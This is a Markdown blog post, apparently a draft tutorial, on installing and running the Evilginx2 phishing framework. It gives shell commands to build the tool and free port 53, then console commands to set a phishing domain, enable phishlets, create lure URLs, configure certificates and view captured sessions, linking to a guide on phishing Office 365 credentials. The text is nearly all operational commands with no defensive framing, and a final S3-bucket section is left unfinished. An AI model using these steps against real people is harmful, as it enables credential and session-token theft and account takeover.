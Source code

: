 ```yaml
---
author: "Marcin M"
title: "Evilginx Phishing Commands Tutorial"
date: 2024-05-31T16:01:59+01:00
description: "Evilginx Phishing Commands Tutorial."
aliases: ['Evilginx', 'Phishing']
draft: true
categories: ['Hacking']
tags: ['Evilginx']
ShowToc: true
TocOpen: false
searchHidden: false
editPost:
  URL: "https://github.com/Marcin13/posts/blob/master/Evilginx-Phishing-Commands-Tutorial.md"
---
```


![Screenshot.png](http://marcinmitruk.link/img/Evilginx-Phishing-Commands-Tutorial/Screenshot_1.png)
***

## Install Dependencies
### Update and upgrade repo and install make
```shell
sudo apt update
sudo apt install git make -y
sudo apt install gcc libpcap-dev libnetfilter-queue-dev -y
```

## Steps to Install Go and Build Evilginx

### Install Go

First, you need to install the Go programming language. You can do this by downloading and installing the latest version of Go.

```bash
sudo apt install -y golang-go -y
```
### Ensure that Go is installed correctly by checking its version.

```shell
go version
```

## Set Up Go Environment

Set the GOPATH environment variable to point to your Go workspace. Add the following lines to your .bashrc or .profile file:

```shell
echo 'export GOPATH=$HOME/go' >> ~/.bashrc
echo 'export PATH=$PATH:/usr/local/go/bin:$GOPATH/bin' >> ~/.bashrc
source ~/.bashrc
```
### Clone Evilginx Repository, build Evilginx
```shell
git clone https://github.com/BakkerJan/evilginx2.git
cd evilginx2
make
sudo make install
```

### Start Evilginx
```shell
sudo evilginx
```
## Check for DNS Service on Port 53

Ensure that no other service is using port 53. You can check this with:

```bash
sudo lsof -i :53
```
### To stop systemd-resolved temporarily:
```shell
sudo systemctl stop systemd-resolved
```
### To disable it permanently (use with caution):
```shell
sudo systemctl disable systemd-resolved
```
### Start again Evilginx
```shell
sudo evilginx
```

## Basic Commands:
### Show Help
```shell
help
```

### Set Up Phishing Site
```shell
config domain yourphishingdomain.com
```
```shell
 config ip your.server.ip
```

### Check Configuration
```shell
 config
```

### List Available Phishlets
```shell
 phishlets
```

### Enable a Phishlet
```shell
 phishlets enable <phishlet_name>
```

### Disable a Phishlet
```shell
 phishlets disable <phishlet_name>
```

### List Active Phishlets
``` shell
 phishlets list
```

### Create a Lure
```shell
 lures create <phishlet_name>
```

### Get Lure URL
```shell
 lures get-url <lure_id>
```

### List Lures
```shell
 lures
```

### Delete a Lure
```shell
 lures delete <lure_id>
```

### List Sessions
```shell
 sessions
```

### Show Session Details
```shell 
sessions <session_id>
```

### Configure SSL/TLS Certificates
```shell 
config certs yourphishingdomain.com /path/to/ssl/certificate /path/to/private/key
```

### Reload Phishlets
```shell
 phishlets reload
```


> #### Let's create S3 bucket

Click create bucket to create one
![Screenshot.png](http://marcinmitruk.link/img/Evilginx-Phishing-Commands-Tutorial/Screenshot_1.png)
***






### Links:
[janbakker.tech](https://janbakker.tech/how-to-set-up-evilginx-to-phish-office-365-credentials/)